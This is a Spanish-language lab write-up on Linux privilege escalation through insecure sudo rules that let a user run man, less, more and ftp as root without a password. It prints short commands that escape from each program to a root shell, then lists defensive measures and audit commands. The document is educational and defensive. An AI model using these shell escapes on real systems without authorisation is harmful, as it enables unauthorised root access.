# Linux - Escalada de privilegios con sudo y binarios permitidos

> Laboratorio/documentación realizada en entorno local o controlado con fines educativos. No ejecutar estas técnicas contra sistemas ajenos o sin autorización.


## Objetivo

Analizar una configuración insegura de `sudo` donde un usuario puede ejecutar determinados binarios como `root` sin contraseña, y documentar el riesgo defensivo asociado.

## Punto de partida

La enumeración con `sudo -l` muestra binarios permitidos con `NOPASSWD`, como:

```text
/usr/bin/man
/usr/bin/less
/usr/bin/more
/usr/bin/ftp
```

Cuando herramientas interactivas se ejecutan con privilegios elevados, pueden permitir escapar a una shell.

## Técnicas observadas

### `man`

```bash
sudo man man
!/bin/sh
```

### `less`

```bash
sudo less /etc/profile
!/bin/sh
```

### `ftp`

```bash
sudo ftp
!/bin/sh
```

### `more`

```bash
TERM= sudo more /etc/profile
!/bin/sh
```

## Medidas defensivas

- No conceder `NOPASSWD` a binarios interactivos.
- Revisar `/etc/sudoers` y ficheros en `/etc/sudoers.d/`.
- Aplicar el principio de mínimo privilegio.
- Usar comandos específicos y restringidos en lugar de binarios genéricos.
- Auditar periódicamente con:

```bash
sudo -l
find / -perm -4000 -type f 2>/dev/null
```

## Evidencias visuales




*Captura 1.*



*Captura 2.*



*Captura 3.*



*Captura 4.*



*Captura 5.*



*Captura 6.*



*Captura 7.*



*Captura 8.*



*Captura 9.*



*Captura 10.*



*Captura 11.*



*Captura 12.*



*Captura 13.*



*Captura 14.*

## Resumen

El problema no está en `man`, `less`, `more` o `ftp` por sí mismos, sino en permitir que un usuario los ejecute como `root`. Una regla `sudo` mal definida puede convertirse en una vía directa de escalada de privilegios.
